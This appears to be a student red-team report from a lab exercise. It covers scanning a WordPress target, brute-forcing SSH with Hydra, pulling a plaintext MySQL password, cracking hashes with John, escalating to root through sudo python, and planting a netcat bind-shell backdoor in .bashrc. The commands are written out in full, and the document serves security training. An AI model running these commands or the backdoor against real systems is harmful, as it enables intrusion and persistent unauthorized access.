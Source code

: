 # Red Team: Summary of Operations

## Table of Contents
- Network Topology
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Stealth Scan
```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)

Enable OS detection, version detection, script scanning, and traceroute
```bash
$ nmap -A  192.168.1.110
```
![Nmap Scan2](/Images/NmapScan2.png)
![Nmap Scan3](/Images/NmapScan3.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on target 1:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
    - The product exposes sensitive information to an actor that is not explicitly authorized to have access to that information.
    - Allowed for port scan and identification of vulnerable ports.
  - CWE-672: Operation on a Resource after Expiration or Release
    - The software uses, accesses, or otherwise operates on a resource after that resource has been expired, released, or revoked.
    - WordPress version 4.8.7 was vulnerable to user enumeration among other vulnerabilities, and allowed for discovery of users of target 1.
  - CWE-521: Weak Password Requirements 
    - The product does not require a strong passwords, which makes it easier for attackers to compromise user accounts.
    - Allows a brute force attack to crack or guess the weak password of an user: Michael, and use the stole credentials to infiltrate the server.
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
    - The software does not implement sufficient measures to prevent multiple failed authentication attempts within in a short time frame, making it more susceptible to brute force attacks.
    - Allows a brute force attack to occur.
  - CWE-256: Unprotected Storage of Credentials
    - Storing a password in plaintext may result in a system compromise.
    - MySQL password was stored in plain text, and used to access MySQL database.
  - CWE-522: Insufficiently Protected Credentials
    - The product transmits or stores authentication credentials, but it uses an insecure method that is susceptible to unauthorized interception and/or retrieval.
    - MySQL contained user passwords hashes that was cracked by John.
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 
    - The software does not correctly perform an authorization check, which  allows attackers to bypass intended access restrictions.
    - Steven, with permission of execute python exe, was used to escalate privileges to root.

Searchsploit to identify possible exploits
```bash
$ searchsploit SSH
```
![SSHVuln](/Images/SSHVuln.png)

```bash
$ searchsploit apache
```
![apacheVuln](/Images/apacheVuln.png)

```bash
$ searchsploit Samba
```
![SambaVuln](/Images/SambaVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - `wpscan --url 192.168.1.110/wordpress/ --enumerate u`
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess weak password
        - `hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh`
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - `ssh michael@192.168.1.110`
        - `Password: michael`
      - Search for Flag1
        - `grep -rnw ./ -e 'flag1' 2>/dev/null`
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - `cd /var/www`
      - `grep -rnw ./ -e 'flag2' 2>/dev/null`
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password in MySQL database
        - `grep -rnw ./ -e 'password' 2>/dev/null`
        - `nano /var/www/html/wordpress/wp-config.php`
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - `mysql -u root -p'R@3nSecurity'`
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - `select post_content from wp_posts`
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password in MySQL database
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper in a Kali terminal
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - `john hash_pw.txt`
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Explore and escalate privilege to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Search for flag4
        - `find . -name flag4.txt`
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
      - Set up a listener on Target 1 by:
        - Gain root access to Target 1 and executing:
          - `nc -lvnp 4444 -e /bin/bash`
          - Save a .sh file of the command in .bashrc
      - Connect it to Kali by: 
        - `nc 192.168.1.110 4444`
      - ![Backdoor](/Images/Backdoor.png)

Read [Blue Team](https://github.com/walter-t-p/RedBlueSecurityEngineer_June_8_2021/blob/main/BlueTeam.md) analysis of the attack here.

